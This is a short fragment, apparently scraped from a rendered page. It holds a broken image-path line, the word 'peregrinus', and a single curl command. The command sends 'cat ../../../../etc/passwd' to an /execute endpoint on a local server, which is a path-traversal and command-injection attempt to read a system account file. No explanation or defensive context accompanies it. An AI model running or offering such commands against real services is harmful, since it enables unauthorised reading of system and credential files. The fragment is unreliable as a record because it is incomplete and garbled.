 # peregrinus



    curl -X POST http://localhost:8080/execute -d 'cat ../../../../etc/passwd' -H 'Content-Type: text/plain'
